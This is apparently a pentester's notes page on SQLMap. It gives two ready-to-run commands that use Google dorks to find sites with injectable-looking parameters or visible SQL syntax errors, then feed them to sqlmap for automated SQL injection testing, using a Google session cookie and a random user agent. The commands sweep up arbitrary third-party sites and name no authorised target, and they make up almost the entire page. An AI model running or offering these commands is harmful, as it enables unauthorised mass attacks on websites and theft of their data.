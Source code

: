 # SQLMap

## Google Dork Endpoints

```
$ sqlmap -g "inurl:\"<parameter>=\" [site:website.com] ext:\(php \| aspx \| asp \| jsp \| js\) inurl:&?" --cookies="<google_cookies_session>" -f --random-agent
```

## Syntax Error SQL Dorks

```
$ sqlmap -g "inurl:\".php?id=1\" intext:\"You have an error in your SQL syntax\"" --cookies="<google_cookies_session>" --random-agent
```

---
## References

- [[Common SQL Parameters|Google Dorking: Common SQL Parameters]]

- [[07 - Tactics & Techniques & Procedures Phases/D - Webapp Pentesting/0x05 - Sensitive Data Exposure/Helpers/Dorks/Panels|Google Dorking: Panels]]

- [[SQL Syntax Errors|Google Dorking: SQL Syntax Errors]]